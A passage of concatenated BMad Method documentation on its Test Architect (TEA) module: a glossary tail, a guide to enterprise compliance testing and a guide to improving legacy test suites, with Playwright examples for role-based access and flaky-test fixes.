| **Correct Course**      | Workflow for navigating significant changes when implementation is off-track. Analyzes impact and recommends adjustments.                  |
| **Shard / Sharding**    | Splitting large planning documents into section-based files for LLM optimization. Phase 4 workflows load only needed sections.             |
| **Sprint**              | Time-boxed period of development work, typically 1-2 weeks.                                                                                |
| **Sprint Planning**     | Workflow initializing Phase 4 by creating sprint-status.yaml and extracting epics/stories from planning docs.                              |
| **Story**               | Single unit of implementable work with clear acceptance criteria, typically 2-8 hours of effort. Grouped into epics.                       |
| **Story Context**       | Implementation guidance embedded in story files during create-story, referencing existing patterns and approaches.                         |
| **Story File**          | Markdown file containing story description, acceptance criteria, technical notes, and testing requirements.                                |
| **Track Selection**     | Automatic analysis by `bmad-help` suggesting appropriate track based on complexity indicators. User can override.                          |

## Game Development Terms

| Term                           | Definition                                                                                           |
| ------------------------------ | ---------------------------------------------------------------------------------------------------- |
| **Core Fantasy**               | _BMGD._ The emotional experience players seek from your game — what they want to FEEL.               |
| **Core Loop**                  | _BMGD._ Fundamental cycle of actions players repeat throughout gameplay. The heart of your game.     |
| **Design Pillar**              | _BMGD._ Core principle guiding all design decisions. Typically 3-5 pillars define a game's identity. |
| **Environmental Storytelling** | _BMGD._ Narrative communicated through the game world itself rather than explicit dialogue.          |
| **Game Type**                  | _BMGD._ Genre classification determining which specialized GDD sections are included.                |
| **MDA Framework**              | _BMGD._ Mechanics → Dynamics → Aesthetics — framework for analyzing and designing games.             |
| **Meta-Progression**           | _BMGD._ Persistent progression carrying between individual runs or sessions.                         |
| **Metroidvania**               | _BMGD._ Genre featuring interconnected world exploration with ability-gated progression.             |
| **Narrative Complexity**       | _BMGD._ How central story is to the game: Critical, Heavy, Moderate, or Light.                       |
| **Permadeath**                 | _BMGD._ Game mechanic where character death is permanent, typically requiring a new run.             |
| **Player Agency**              | _BMGD._ Degree to which players can make meaningful choices affecting outcomes.                      |
| **Procedural Generation**      | _BMGD._ Algorithmic creation of game content (levels, items, characters) rather than hand-crafted.   |
| **Roguelike**                  | _BMGD._ Genre featuring procedural generation, permadeath, and run-based progression.                |

## Test Architect (TEA) Concepts

| Term                         | Definition                                                                                                                                                                                                                   |
| ---------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **ATDD**                     | Acceptance Test-Driven Development — Generating failing acceptance tests BEFORE implementation (TDD red phase).                                                                                                              |
| **Burn-in Testing**          | Running tests multiple times (typically 5-10 iterations) to detect flakiness and intermittent failures.                                                                                                                      |
| **Component Testing**        | Testing UI components in isolation using framework-specific tools (Cypress Component Testing or Vitest + React Testing Library).                                                                                             |
| **Coverage Traceability**    | Mapping acceptance criteria to implemented tests with classification (FULL/PARTIAL/NONE) to identify gaps and measure completeness.                                                                                          |
| **Epic-Level Test Design**   | Test planning per epic (Phase 4) focusing on risk assessment, priorities, and coverage strategy for that specific epic.                                                                                                      |
| **Fixture Architecture**     | Pattern of building pure functions first, then wrapping in framework-specific fixtures for testability, reusability, and composition.                                                                                        |
| **Gate Decision**            | Go/no-go decision for release with four outcomes: PASS ✅ (ready), CONCERNS ⚠️ (proceed with mitigation), FAIL ❌ (blocked), WAIVED ⏭️ (approved despite issues).                                                            |
| **Knowledge Fragment**       | Individual markdown file in TEA's knowledge base covering a specific testing pattern or practice (42 fragments total).                                                                                                       |
| **Browser Automation**       | Playwright CLI and/or MCP servers enabling live browser interaction during test generation. CLI provides token-efficient stateless commands; MCP provides rich stateful automation. Configured via `tea_browser_automation`. |
| **Network-First Pattern**    | Testing pattern that waits for actual network responses instead of fixed timeouts to avoid race conditions and flakiness.                                                                                                    |
| **NFR Assessment**           | Validation of non-functional requirements (security, performance, reliability, maintainability) with evidence-based decisions.                                                                                               |
| **Playwright Utils**         | Optional package (`@seontechnologies/playwright-utils`) providing production-ready fixtures and utilities for Playwright tests.                                                                                              |
| **Risk-Based Testing**       | Testing approach where depth scales with business impact using probability × impact scoring (1-9 scale).                                                                                                                     |
| **System-Level Test Design** | Test planning at architecture level (Phase 3) focusing on testability review, ADR mapping, and test infrastructure needs.                                                                                                    |
| **tea-index.csv**            | Manifest file tracking all knowledge fragments, their descriptions, tags, and which workflows load them.                                                                                                                     |
| **TEA Integrated**           | Full BMad Method integration with TEA workflows across all phases (Phase 2, 3, 4, and Release Gate).                                                                                                                         |
| **TEA Lite**                 | Beginner approach using just `automate` to test existing features (simplest way to use TEA).                                                                                                                                 |
| **TEA Solo**                 | Standalone engagement model using TEA without full BMad Method integration (bring your own requirements).                                                                                                                    |
| **Test Priorities**          | Classification system for test importance: P0 (critical path), P1 (high value), P2 (medium value), P3 (low value).                                                                                                           |

---

## See Also

- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) - Complete TEA capabilities
- [TEA Knowledge Base](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Fragment index
- [TEA Command Reference](../bmad_repo/commands.md) - Workflow reference
- [TEA Configuration](configuration.md) - Config options

---

Generated with [BMad Method](https://bmad-method.org)
```

## File: `brain/knowledge/docs_legacy/how-to/brownfield/use-tea-for-enterprise.md`
```markdown
---
title: 'Running TEA for Enterprise Projects'
description: Use TEA with compliance, security, and regulatory requirements in enterprise environments
---

# Running TEA for Enterprise Projects

Use TEA on enterprise projects with compliance, security, audit, and regulatory requirements. This guide covers NFR assessment, audit trails, and evidence collection.

## When to Use This

- Enterprise track projects (not Quick Flow or simple BMad Method)
- Compliance requirements (SOC 2, HIPAA, GDPR, etc.)
- Security-critical applications (finance, healthcare, government)
- Audit trail requirements
- Strict NFR thresholds (performance, security, reliability)

## Prerequisites

- BMad Method installed (Enterprise track selected)
- TEA agent available
- Compliance requirements documented
- Stakeholders identified (who approves gates)

## Enterprise-Specific TEA Workflows

### NFR Assessment (`nfr-assess`)

**Purpose:** Validate non-functional requirements with evidence.

**When:** Phase 2 (early) and Release Gate

**Why Enterprise Needs This:**

- Compliance mandates specific thresholds
- Audit trails required for certification
- Security requirements are non-negotiable
- Performance SLAs are contractual

**Example:**

```
nfr-assess

Categories: Security, Performance, Reliability, Maintainability

Security thresholds:
- Zero critical vulnerabilities (required by SOC 2)
- All endpoints require authentication
- Data encrypted at rest (FIPS 140-2)
- Audit logging on all data access

Evidence:
- Security scan: reports/nessus-scan.pdf
- Penetration test: reports/pentest-2026-01.pdf
- Compliance audit: reports/soc2-evidence.zip
```

**Output:** NFR assessment with PASS/CONCERNS/FAIL for each category.

### Trace with Audit Evidence (`trace`)

**Purpose:** Requirements traceability with audit trail.

**When:** Phase 2 (baseline), Phase 4 (refresh), Release Gate

**Why Enterprise Needs This:**

- Auditors require requirements-to-test mapping
- Compliance certifications need traceability
- Regulatory bodies want evidence

**Example:**

```
trace Phase 1

Requirements: PRD.md (with compliance requirements)
Test location: tests/

Output: traceability-matrix.md with:
- Requirement-to-test mapping
- Compliance requirement coverage
- Gap prioritization
- Recommendations
```

**For Release Gate:**

```
trace Phase 2

Generate gate-decision-{gate_type}-{story_id}.md with:
- Evidence references
- Approver signatures
- Compliance checklist
- Decision rationale
```

### Test Design with Compliance Focus (`test-design`)

**Purpose:** Risk assessment with compliance and security focus.

**When:** Phase 3 (system-level), Phase 4 (epic-level)

**Why Enterprise Needs This:**

- Security architecture alignment required
- Compliance requirements must be testable
- Performance requirements are contractual

**Example:**

```
test-design

Mode: System-level

Focus areas:
- Security architecture (authentication, authorization, encryption)
- Performance requirements (SLA: P99 <200ms)
- Compliance (HIPAA PHI handling, audit logging)

Output: TWO documents (system-level):
- `test-design-architecture.md`: Security gaps, compliance requirements, performance SLOs for Architecture team
- `test-design-qa.md`: Security testing strategy, compliance test mapping, performance testing plan for QA team
- Audit logging validation
```

## Enterprise TEA Lifecycle

### Phase 1: Discovery (Optional but Recommended)

**Research compliance requirements:**

```
Analyst: research

Topics:
- Industry compliance (SOC 2, HIPAA, GDPR)
- Security standards (OWASP Top 10)
- Performance benchmarks (industry P99)
```

### Phase 2: Planning (Required)

**1. Define NFRs early:**

```
PM: prd

Include in PRD:
- Security requirements (authentication, encryption)
- Performance SLAs (response time, throughput)
- Reliability targets (uptime, RTO, RPO)
- Compliance mandates (data retention, audit logs)
```

**2. Assess NFRs:**

```
TEA: nfr-assess

Categories: All (Security, Performance, Reliability, Maintainability)

Output: nfr-assessment.md
- NFR requirements documented
- Acceptance criteria defined
- Test strategy planned
```

**3. Baseline (brownfield only):**

```
TEA: trace Phase 1

Establish baseline coverage before new work
```

### Phase 3: Solutioning (Required)

**1. Architecture with testability review:**

```
Architect: architecture

TEA: test-design (system-level)

Focus:
- Security architecture testability
- Performance testing strategy
- Compliance requirement mapping
```

**2. Test infrastructure:**

```
TEA: framework

Requirements:
- Separate test environments (dev, staging, prod-mirror)
- Secure test data handling (PHI, PII)
- Audit logging in tests
```

**3. CI/CD with compliance:**

```
TEA: ci

Requirements:
- Secrets management (Vault, AWS Secrets Manager)
- Test isolation (no cross-contamination)
- Artifact retention (compliance audit trail)
- Access controls (who can run production tests)
```

### Phase 4: Implementation (Required)

**Per epic:**

```
1. TEA: test-design (epic-level)
   Focus: Compliance, security, performance for THIS epic

2. TEA: atdd (optional)
   Generate tests including security/compliance scenarios

3. DEV: Implement story

4. TEA: automate
   Expand coverage including compliance edge cases

5. TEA: test-review
   Audit quality (score >80 per epic, rises to >85 at release)

6. TEA: trace Phase 1
   Refresh coverage, verify compliance requirements tested
```

### Release Gate (Required)

**1. Final NFR assessment:**

```
TEA: nfr-assess

All categories (if not done earlier)
Latest evidence (performance tests, security scans)
```

**2. Final quality audit:**

```
TEA: test-review tests/

Full suite review
Quality target: >85 for enterprise
```

**3. Gate decision:**

```
TEA: trace Phase 2

Evidence required:
- traceability-matrix.md (from Phase 1)
- test-review.md (from quality audit)
- nfr-assessment.md (from NFR assessment)
- Test execution results (must have test results available)

Decision: PASS/CONCERNS/FAIL/WAIVED

Archive all artifacts for compliance audit
```

**Note:** Phase 2 requires test execution results. If results aren't available, Phase 2 will be skipped.

**4. Archive for audit:**

```
Archive:
- All test results
- Coverage reports
- NFR assessments
- Gate decisions
- Approver signatures

Retention: Per compliance requirements (7 years for HIPAA)
```

## Enterprise-Specific Requirements

### Evidence Collection

**Required artifacts:**

- Requirements traceability matrix
- Test execution results (with timestamps)
- NFR assessment reports
- Security scan results
- Performance test results
- Gate decision records
- Approver signatures

**Storage:**

```
compliance/
├── 2026-Q1/
│   ├── release-1.2.0/
│   │   ├── traceability-matrix.md
│   │   ├── test-review.md
│   │   ├── nfr-assessment.md
│   │   ├── gate-decision-release-v1.2.0.md
│   │   ├── test-results/
│   │   ├── security-scans/
│   │   └── approvals.pdf
```

**Retention:** 7 years (HIPAA), 3 years (SOC 2), per your compliance needs

### Approver Workflows

**Multi-level approval required:**

```markdown
## Gate Approvals Required

### Technical Approval

- [ ] QA Lead - Test coverage adequate
- [ ] Tech Lead - Technical quality acceptable
- [ ] Security Lead - Security requirements met

### Business Approval

- [ ] Product Manager - Business requirements met
- [ ] Compliance Officer - Regulatory requirements met

### Executive Approval (for major releases)

- [ ] VP Engineering - Overall quality acceptable
- [ ] CTO - Architecture approved for production
```

### Compliance Checklists

**SOC 2 Example:**

```markdown
## SOC 2 Compliance Checklist

### Access Controls

- [ ] All API endpoints require authentication
- [ ] Authorization tested for all protected resources
- [ ] Session management secure (token expiration tested)

### Audit Logging

- [ ] All data access logged
- [ ] Logs immutable (append-only)
- [ ] Log retention policy enforced

### Data Protection

- [ ] Data encrypted at rest (tested)
- [ ] Data encrypted in transit (HTTPS enforced)
- [ ] PII handling compliant (masking tested)

### Testing Evidence

- [ ] Test coverage >80% (verified)
- [ ] Security tests passing (100%)
- [ ] Traceability matrix complete
```

**HIPAA Example:**

```markdown
## HIPAA Compliance Checklist

### PHI Protection

- [ ] PHI encrypted at rest (AES-256)
- [ ] PHI encrypted in transit (TLS 1.3)
- [ ] PHI access logged (audit trail)

### Access Controls

- [ ] Role-based access control (RBAC tested)
- [ ] Minimum necessary access (tested)
- [ ] Authentication strong (MFA tested)

### Breach Notification

- [ ] Breach detection tested
- [ ] Notification workflow tested
- [ ] Incident response plan tested
```

## Enterprise Tips

### Start with Security

**Priority 1:** Security requirements

```
1. Document all security requirements
2. Generate security tests with `atdd`
3. Run security test suite
4. Pass security audit BEFORE moving forward
```

**Why:** Security failures block everything in enterprise.

**Example: RBAC Testing**

**Vanilla Playwright:**

```typescript
test('should enforce role-based access', async ({ request }) => {
  // Login as regular user
  const userResp = await request.post('/api/auth/login', {
    data: { email: 'user@example.com', password: 'pass' },
  });
  const { token: userToken } = await userResp.json();

  // Try to access admin endpoint
  const adminResp = await request.get('/api/admin/users', {
    headers: { Authorization: `Bearer ${userToken}` },
  });

  expect(adminResp.status()).toBe(403); // Forbidden
});
```

**With Playwright Utils (Cleaner, Reusable):**

```typescript
import { test as base, expect } from '@playwright/test';
import { test as apiRequestFixture } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { createAuthFixtures } from '@seontechnologies/playwright-utils/auth-session';
import { mergeTests } from '@playwright/test';

const authFixtureTest = base.extend(createAuthFixtures());
export const testWithAuth = mergeTests(apiRequestFixture, authFixtureTest);

testWithAuth('should enforce role-based access', async ({ apiRequest, authToken }) => {
  // Auth token from fixture (configured for 'user' role)
  const { status } = await apiRequest({
    method: 'GET',
    path: '/api/admin/users', // Admin endpoint
    headers: { Authorization: `Bearer ${authToken}` },
  });

  expect(status).toBe(403); // Regular user denied
});

testWithAuth('admin can access admin endpoint', async ({ apiRequest, authToken, authOptions }) => {
  // Override to admin role
  authOptions.userIdentifier = 'admin';

  const { status, body } = await apiRequest({
    method: 'GET',
    path: '/api/admin/users',
    headers: { Authorization: `Bearer ${authToken}` },
  });

  expect(status).toBe(200); // Admin allowed
  expect(body).toBeInstanceOf(Array);
});
```

**Note:** Auth-session requires provider setup in global-setup.ts. See [auth-session configuration](https://seontechnologies.github.io/playwright-utils/auth-session.html).

**Playwright Utils Benefits for Compliance:**

- Multi-user auth testing (regular, admin, etc.)
- Token persistence (faster test execution)
- Consistent auth patterns (audit trail)
- Automatic cleanup

### Set Higher Quality Thresholds

**Enterprise quality targets:**

- Test coverage: >85% (vs 80% for non-enterprise)
- Quality score: >85 (vs 75 for non-enterprise)
- P0 coverage: 100% (non-negotiable)
- P1 coverage: >95% (vs 90% for non-enterprise)

**Rationale:** Enterprise systems affect more users, higher stakes.

### Document Everything

**Auditors need:**

- Why decisions were made (rationale)
- Who approved (signatures)
- When (timestamps)
- What evidence (test results, scan reports)

**Use TEA's structured outputs:**

- Reports have timestamps
- Decisions have rationale
- Evidence is referenced
- Audit trail is automatic

### Budget for Compliance Testing

**Enterprise testing costs more:**

- Penetration testing: $10k-50k
- Security audits: $5k-20k
- Performance testing tools: $500-5k/month
- Compliance consulting: $200-500/hour

**Plan accordingly:**

- Budget in project cost
- Schedule early (3+ months for SOC 2)
- Don't skip (non-negotiable for compliance)

### Use External Validators

**Don't self-certify:**

- Penetration testing: Hire external firm
- Security audits: Independent auditor
- Compliance: Certification body
- Performance: Load testing service

**TEA's role:** Prepare for external validation, don't replace it.

## Related Guides

**Workflow Guides:**

- [How to Run NFR Assessment](/brain/knowledge/docs_legacy/how-to/workflows/run-nfr-assess.md) - Deep dive on NFRs
- [How to Run Trace](/brain/knowledge/docs_legacy/how-to/workflows/run-trace.md) - Gate decisions with evidence
- [How to Run Test Review](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md) - Quality audits
- [How to Run Test Design](/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md) - Compliance-focused planning

**Use-Case Guides:**

- [Using TEA with Existing Tests](/brain/knowledge/docs_legacy/how-to/brownfield/use-tea-with-existing-tests.md) - Brownfield patterns

**Customization:**

- [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md) - Production-ready utilities

## Understanding the Concepts

- [Engagement Models](/brain/knowledge/docs_legacy/explanation/engagement-models.md) - Enterprise model explained
- [Risk-Based Testing](/brain/knowledge/docs_legacy/explanation/risk-based-testing.md) - Probability × impact scoring
- [Test Quality Standards](/brain/knowledge/docs_legacy/explanation/test-quality-standards.md) - Enterprise quality thresholds
- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) - Complete TEA lifecycle

## Reference

- [TEA Command Reference](../bmad_repo/commands.md) - All 9 workflows
- [TEA Configuration](configuration.md) - Enterprise config options
- [Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Testing patterns
- [Glossary](../INDEX.md#test-architect-tea-concepts) - TEA terminology

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/how-to/brownfield/use-tea-with-existing-tests.md`
```markdown
---
title: 'Using TEA with Existing Tests (Brownfield)'
description: Apply TEA workflows to legacy codebases with existing test suites
---

# Using TEA with Existing Tests (Brownfield)

Use TEA on brownfield projects (existing codebases with legacy tests) to establish coverage baselines, identify gaps, and improve test quality without starting from scratch.

## When to Use This

- Existing codebase with some tests already written
- Legacy test suite needs quality improvement
- Adding features to existing application
- Need to understand current test coverage
- Want to prevent regression as you add features

## Prerequisites

- BMad Method installed
- TEA agent available
- Existing codebase with tests (even if incomplete or low quality)
- Tests run successfully (or at least can be executed)

**Note:** If your codebase is completely undocumented, run `document-project` first to create baseline documentation.

## Brownfield Strategy

### Phase 1: Establish Baseline

Understand what you have before changing anything.

#### Step 1: Baseline Coverage with `trace`

Run `trace` Phase 1 to map existing tests to requirements:

```
trace
```

**Select:** Phase 1 (Requirements Traceability)

**Provide:**

- Existing requirements docs (PRD, user stories, feature specs)
- Test location (`tests/` or wherever tests live)
- Focus areas (specific features if large codebase)

**Output:** `traceability-matrix.md` showing:

- Which requirements have tests
- Which requirements lack coverage
- Coverage classification (FULL/PARTIAL/NONE)
- Gap prioritization

**Example Baseline:**

```markdown
# Baseline Coverage (Before Improvements)

**Total Requirements:** 50
**Full Coverage:** 15 (30%)
**Partial Coverage:** 20 (40%)
**No Coverage:** 15 (30%)

**By Priority:**

- P0: 50% coverage (5/10) ❌ Critical gap
- P1: 40% coverage (8/20) ⚠️ Needs improvement
- P2: 20% coverage (2/10) ✅ Acceptable
```

This baseline becomes your improvement target.

#### Step 2: Quality Audit with `test-review`

Run `test-review` on existing tests:

```
test-review tests/
```

**Output:** `test-review.md` with quality score and issues.

**Common Brownfield Issues:**

- Hard waits everywhere (`page.waitForTimeout(5000)`)
- Fragile CSS selectors (`.class > div:nth-child(3)`)
- No test isolation (tests depend on execution order)
- Try-catch for flow control
- Tests don't clean up (leave test data in DB)

**Example Baseline Quality:**

```markdown
# Quality Score: 55/100

**Critical Issues:** 12

- 8 hard waits
- 4 conditional flow control

**Recommendations:** 25

- Extract fixtures
- Improve selectors
- Add network assertions
```

This shows where to focus improvement efforts.

### Phase 2: Prioritize Improvements

Don't try to fix everything at once.

#### Focus on Critical Path First

**Priority 1: P0 Requirements**

```
Goal: Get P0 coverage to 100%

Actions:
1. Identify P0 requirements with no tests (from trace)
2. Run `automate` to generate tests for missing P0 scenarios
3. Fix critical quality issues in P0 tests (from test-review)
```

**Priority 2: Fix Flaky Tests**

```
Goal: Eliminate flakiness

Actions:
1. Identify tests with hard waits (from test-review)
2. Replace with network-first patterns
3. Run burn-in loops to verify stability
```

**Example Modernization:**

**Before (Flaky - Hard Waits):**

```typescript
test('checkout completes', async ({ page }) => {
  await page.click('button[name="checkout"]');
  await page.waitForTimeout(5000); // ❌ Flaky
  await expect(page.locator('.confirmation')).toBeVisible();
});
```

**After (Network-First - Vanilla):**

```typescript
test('checkout completes', async ({ page }) => {
  const checkoutPromise = page.waitForResponse((resp) => resp.url().includes('/api/checkout') && resp.ok());
  await page.click('button[name="checkout"]');
  await checkoutPromise; // ✅ Deterministic
  await expect(page.locator('.confirmation')).toBeVisible();
});
```

**After (With Playwright Utils - Cleaner API):**

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';
import { expect } from '@playwright/test';

test('checkout completes', async ({ page, interceptNetworkCall }) => {
  // Use interceptNetworkCall for cleaner network interception
  const checkoutCall = interceptNetworkCall({
    method: 'POST',
    url: '**/api/checkout',
  });

  await page.click('button[name="checkout"]');

  // Wait for response (automatic JSON parsing)
  const { status, responseJson: order } = await checkoutCall;

  // Validate API response
  expect(status).toBe(200);
  expect(order.status).toBe('confirmed');

  // Validate UI
  await expect(page.locator('.confirmation')).toBeVisible();
});
```

**Playwright Utils Benefits:**

- `interceptNetworkCall` for cleaner network interception
- Automatic JSON parsing (`responseJson` ready to use)
- No manual `await response.json()`
- Glob pattern matching (`**/api/checkout`)
- Cleaner, more maintainable code

**For automatic error detection,** use `network-error-monitor` fixture separately. See [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md#network-error-monitor).

**Priority 3: P1 Requirements**

```
Goal: Get P1 coverage to 80%+

Actions:
1. Generate tests for highest-risk P1 gaps
2. Improve test quality incrementally
```

#### Create Improvement Roadmap

```markdown
# Test Improvement Roadmap

## Week 1: Critical Path (P0)

- [ ] Add 5 missing P0 tests (Epic 1: Auth)
- [ ] Fix 8 hard waits in auth tests
- [ ] Verify P0 coverage = 100%

## Week 2: Flakiness

- [ ] Replace all hard waits with network-first
- [ ] Fix conditional flow control
- [ ] Run burn-in loops (target: 0 failures in 10 runs)

## Week 3: High-Value Coverage (P1)

- [ ] Add 10 missing P1 tests
- [ ] Improve selector resilience
- [ ] P1 coverage target: 80%

## Week 4: Quality Polish

- [ ] Extract fixtures for common patterns
- [ ] Add network assertions
- [ ] Quality score target: 75+
```

### Phase 3: Incremental Improvement

Apply TEA workflows to new work while improving legacy tests.

#### For New Features (Greenfield Within Brownfield)

**Use full TEA workflow:**

```
1. `test-design` (epic-level) - Plan tests for new feature
2. `atdd` - Generate failing tests first (TDD)
3. Implement feature
4. `automate` - Expand coverage
5. `test-review` - Ensure quality
```

**Benefits:**

- New code has high-quality tests from day one
- Gradually raises overall quality
- Team learns good patterns

#### For Bug Fixes (Regression Prevention)

**Add regression tests:**

```
1. Reproduce bug with failing test
2. Fix bug
3. Verify test passes
4. Run `test-review` on regression test
5. Add to regression test suite
```

#### For Refactoring (Regression Safety)

**Before refactoring:**

```
1. Run `trace` - Baseline coverage
2. Note current coverage %
3. Refactor code
4. Run `trace` - Verify coverage maintained
5. No coverage should decrease
```

### Phase 4: Continuous Improvement

Track improvement over time.

#### Quarterly Quality Audits

**Q1 Baseline:**

```
Coverage: 30%
Quality Score: 55/100
Flakiness: 15% fail rate
```

**Q2 Target:**

```
Coverage: 50% (focus on P0)
Quality Score: 65/100
Flakiness: 5%
```

**Q3 Target:**

```
Coverage: 70%
Quality Score: 75/100
Flakiness: 1%
```

**Q4 Target:**

```
Coverage: 85%
Quality Score: 85/100
Flakiness: <0.5%
```

## Brownfield-Specific Tips

### Don't Rewrite Everything

**Common mistake:**

```
"Our tests are bad, let's delete them all and start over!"
```

**Better approach:**

```
"Our tests are bad, let's:
1. Keep tests that work (even if not perfect)
2. Fix critical quality issues incrementally
3. Add tests for gaps
4. Gradually improve over time"
```

**Why:**

- Rewriting is risky (might lose coverage)
- Incremental improvement is safer
- Team learns gradually
- Business value delivered continuously

### Use Regression Hotspots

**Identify regression-prone areas:**

```markdown
## Regression Hotspots

**Based on:**

- Bug reports (last 6 months)
- Customer complaints
- Code complexity (cyclomatic complexity >10)
- Frequent changes (git log analysis)

**High-Risk Areas:**

1. Authentication flow (12 bugs in 6 months)
2. Checkout process (8 bugs)
3. Payment integration (6 bugs)

**Test Priority:**

- Add regression tests for these areas FIRST
- Ensure P0 coverage before touching code
```

### Quarantine Flaky Tests

Don't let flaky tests block improvement:

```typescript
// Mark flaky tests with .skip temporarily
test.skip('flaky test - needs fixing', async ({ page }) => {
  // TODO: Fix hard wait on line 45
  // TODO: Add network-first pattern
});
```

**Track quarantined tests:**

```markdown
# Quarantined Tests

| Test                | Reason                     | Owner    | Target Fix Date |
| ------------------- | -------------------------- | -------- | --------------- |
| checkout.spec.ts:45 | Hard wait causes flakiness | QA Team  | 2026-01-20      |
| profile.spec.ts:28  | Conditional flow control   | Dev Team | 2026-01-25      |
```

**Fix systematically:**

- Don't accumulate quarantined tests
- Set deadlines for fixes
- Review quarantine list weekly

### Migrate One Directory at a Time

**Large test suite?** Improve incrementally:

**Week 1:** `tests/auth/`

```
1. Run `test-review` on auth tests
2. Fix critical issues
3. Re-review
4. Mark directory as "modernized"
```

**Week 2:** `tests/api/`

```
Same process
```

**Week 3:** `tests/e2e/`

```
Same process
```

**Benefits:**

- Focused improvement
- Visible progress
- Team learns patterns
- Lower risk

### Document Migration Status

**Track which tests are modernized:**

```markdown
# Test Suite Status

| Directory          | Tests | Quality Score | Status         | Notes          |
| ------------------ | ----- | ------------- | -------------- | -------------- |
| tests/auth/        | 15    | 85/100        | ✅ Modernized  | Week 1 cleanup |
| tests/api/         | 32    | 78/100        | ⚠️ In Progress | Week 2         |
| tests/e2e/         | 28    | 62/100        | ❌ Legacy      | Week 3 planned |
| tests/integration/ | 12    | 45/100        | ❌ Legacy      | Week 4 planned |

**Legend:**

- ✅ Modernized: Quality >80, no critical issues
- ⚠️ In Progress: Active improvement
- ❌ Legacy: Not yet touched
```

## Common Brownfield Challenges

### "We Don't Know What Tests Cover"

**Problem:** No documentation, unclear what tests do.

**Solution:**

```
1. Run `trace` - TEA analyzes tests and maps to requirements
2. Review traceability matrix
3. Document findings
4. Use as baseline for improvement
```

TEA reverse-engineers test coverage even without documentation.

### "Tests Are Too Brittle to Touch"

**Problem:** Afraid to modify tests (might break them).

**Solution:**

```
1. Run tests, capture current behavior (baseline)
2. Make small improvement (fix one hard wait)
3. Run tests again
4. If still pass, continue
5. If fail, investigate why

Incremental changes = lower risk
```

### "No One Knows How to Run Tests"

**Problem:** Test documentation is outdated or missing.

**Solution:**

```
1. Document manually or ask TEA to help analyze test structure
2. Create tests/README.md with:
   - How to install dependencies
   - How to run tests (npx playwright test, npm test, etc.)
   - What each test directory contains
   - Common issues and troubleshooting
3. Commit documentation for team
```

**Note:** `framework` is for new test setup, not existing tests. For brownfield, document what you have.

### "Tests Take Hours to Run"

**Problem:** Full test suite takes 4+ hours.

**Solution:**

```
1. Configure parallel execution (shard tests across workers)
2. Add selective testing (run only affected tests on PR)
3. Run full suite nightly only
4. Optimize slow tests (remove hard waits, improve selectors)

Before: 4 hours sequential
After: 15 minutes with sharding + selective testing
```

**How `ci` helps:**

- Scaffolds CI configuration with parallel sharding examples
- Provides selective testing script templates
- Documents burn-in and optimization strategies
- But YOU configure workers, test selection, and optimization

**With Playwright Utils burn-in:**

- Smart selective testing based on git diff
- Volume control (run percentage of affected tests)
- See [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md#burn-in)

### "We Have Tests But They Always Fail"

**Problem:** Tests are so flaky they're ignored.

**Solution:**

```
1. Run `test-review` to identify flakiness patterns
2. Fix top 5 flaky tests (biggest impact)
3. Quarantine remaining flaky tests
4. Re-enable as you fix them

Don't let perfect be the enemy of good
```

## Brownfield TEA Workflow

### Recommended Sequence

**1. Documentation (if needed):**

```
document-project
```

**2. Baseline (Phase 2):**

```
trace Phase 1 - Establish coverage baseline
test-review - Establish quality baseline
```

**3. Planning (Phase 2-3):**

```
prd - Document requirements (if missing)
architecture - Document architecture (if missing)
test-design (system-level) - Testability review
```

**4. Infrastructure (Phase 3):**

```
framework - Modernize test framework (if needed)
ci - Setup or improve CI/CD
```

**5. Per Epic (Phase 4):**

```
test-design (epic-level) - Focus on regression hotspots
automate - Add missing tests
test-review - Ensure quality
trace Phase 1 - Refresh coverage
```

**6. Release Gate:**

```
nfr-assess - Validate NFRs (if enterprise)
trace Phase 2 - Gate decision
```

## Related Guides

**Workflow Guides:**

- [How to Run Trace](/brain/knowledge/docs_legacy/how-to/workflows/run-trace.md) - Baseline coverage analysis
- [How to Run Test Review](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md) - Quality audit
- [How to Run Automate](/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md) - Fill coverage gaps
- [How to Run Test Design](/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md) - Risk assessment

**Customization:**

- [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md) - Modernize tests with utilities

## Understanding the Concepts

- [Engagement Models](/brain/knowledge/docs_legacy/explanation/engagement-models.md) - Brownfield model explained
- [Test Quality Standards](/brain/knowledge/docs_legacy/explanation/test-quality-standards.md) - What makes tests good
- [Network-First Patterns](/brain/knowledge/docs_legacy/explanation/network-first-patterns.md) - Fix flakiness
- [Risk-Based Testing](/brain/knowledge/docs_legacy/explanation/risk-based-testing.md) - Prioritize improvements

## Reference

- [TEA Command Reference](../bmad_repo/commands.md) - All 9 workflows
- [TEA Configuration](configuration.md) - Config options
- [Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Testing patterns
- [Glossary](../INDEX.md#test-architect-tea-concepts) - TEA terminology

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/how-to/customization/configure-browser-automation.md`
```markdown
---
title: 'Configure Browser Automation'
description: Set up Playwright CLI and MCP for browser automation in TEA workflows
---

# Configure Browser Automation

TEA can interact with live browsers during test generation — to verify selectors, explore UIs, capture evidence, and debug failures. Two complementary tools are available:

**CLI and MCP are complementary tools, not competitors.** Auto mode uses each where it shines — CLI for token-efficient stateless snapshots, MCP for rich stateful automation — while giving users full control to override when they know better.

## The Four Modes

